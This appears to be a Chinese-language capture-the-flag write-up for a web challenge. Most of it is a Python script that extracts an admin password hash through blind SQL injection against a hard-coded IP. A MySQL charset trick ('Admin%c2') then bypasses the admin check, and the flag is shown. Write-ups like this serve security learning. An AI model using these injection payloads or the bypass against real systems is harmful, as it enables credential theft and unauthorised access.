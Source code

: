## web100 writeup 

sql注入就不再多说了,不懂的看个题.
[https://github.com/wonderkun/CTF_web/tree/master/web300-2](https://github.com/wonderkun/CTF_web/tree/master/web300-2)

直接给出注出passwd的poc吧:
```python
#!/usr/bin/python
# coding:utf-8 

import requests 

def getPassword():
    url = "http://117.34.111.15:89?action=show"
    # data = {"username":}
    username = "admin'^!(mid((passwd)from(-{pos}))='{passwd}')='1"
    strBase = "1234567890abcdef"
    passwd = ""
    for k in range(1,34):
        print passwd
        for i in strBase:
            passwdTmp = i+passwd
            data = {"username":username.format(pos=str(k),passwd=passwdTmp)}
            
            # print data
            res = requests.post(url,data)
            if "admin" in res.text:
                passwd = passwdTmp
                break  


if __name__ == "__main__":
    getPassword()
```
最后用 mysql的utf-8字符编码问题,绕过对admin的判断,参考[https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html),最后post
```
username=Admin%c2&passwd=37b1d2f04f594bfffc826fd69e389688
```
拿到flag: flag{e4d93a53bbe9a2f9c419086c16439aa7} 
